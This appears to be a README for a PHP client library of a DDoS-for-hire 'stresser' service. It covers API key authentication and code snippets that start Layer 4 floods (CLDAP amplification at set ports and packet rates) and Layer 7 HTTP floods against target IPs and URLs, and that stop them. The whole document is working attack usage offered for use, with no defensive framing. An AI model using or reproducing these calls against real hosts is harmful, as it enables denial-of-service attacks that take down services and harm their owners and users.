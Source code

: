 # Stresser.NET API
Sample API usage of https://stresser.net

## Requirements
PHP version 5.x (+).<br/>
Libcurl package.

## L4/L7 Methods Syntaxe
Available here : https://stresser.net/help/methodsdoc

## Authentication
```php
require 'API.php';
// UserID and API Key generated from API Manager website.
$api = new API("UserID", "your-apikey");
```

## Layer 4 Attack
```php
/* Parameters : IPv4 , Port , Time , Method , Slots, PPS */
$response = $api->startL4("1.1.1.1", 80, 15, "CLDAP", 1, 100000);
```
## Layer 7 Attack
```php
/* Parameters : URL , Time , Method , Slots , Type, Ratelimit (true = enable, false = disabled) */
$response = $api->startL7("https://example.com/", 15, "HTTP1", 1, "GET", false);
```
## Stop Attack
```php
/* Parameters : Host. */
$response = $api->stopAttack("1.1.1.1");
```

## API Response
```php
echo $response; // Get API response.
```
